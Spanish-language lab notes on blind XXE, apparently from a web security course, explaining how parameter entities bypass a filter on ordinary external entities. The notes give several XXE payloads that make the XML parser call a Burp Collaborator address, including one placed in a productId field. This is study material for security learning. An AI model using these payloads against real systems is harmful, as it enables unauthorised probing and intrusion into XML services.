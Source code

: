 En esta clase continuamos con la explotación de vulnerabilidades XXE ciegas, utilizando una variante más sofisticada. En este caso, la aplicación bloquea las entidades externas tradicionales, lo que nos obliga a recurrir al uso de parameter entities, una técnica menos común pero igualmente poderosa.

El objetivo es forzar al analizador XML a realizar una solicitud externa, y para ello empleamos Burp Collaborator como canal para observar si el servidor realiza conexiones salientes. Si vemos actividad en Collaborator después de enviar nuestra carga, confirmamos la vulnerabilidad.

Este enfoque es especialmente útil en entornos donde se han implementado filtros para mitigar las XXE básicas, pero aún persisten configuraciones inseguras que pueden ser explotadas con técnicas más avanzadas

-----
#### Entidades Externas Generales

Se hacen fuera de la DTD

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://burpsuite-collaborator/" > ]>
```


#### Entidades de Parámetros

De hacen dentro de la DTD

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://burpsuite-collaborator/" > %xxe; ]>
```

Ahora, podemos meter esto a la consulta a traves del collboarator:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://burpsuite-collaborator/" > ]>
<productId>
&xxe;
</productId>
```

Vemos que no nos muestra nada en el Collaborator, ahora declamos a XXE en parametros para que se envié correctamente

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://burpsuite-collaborator/" > %xxe;]>
<productId>
1
</productId>
```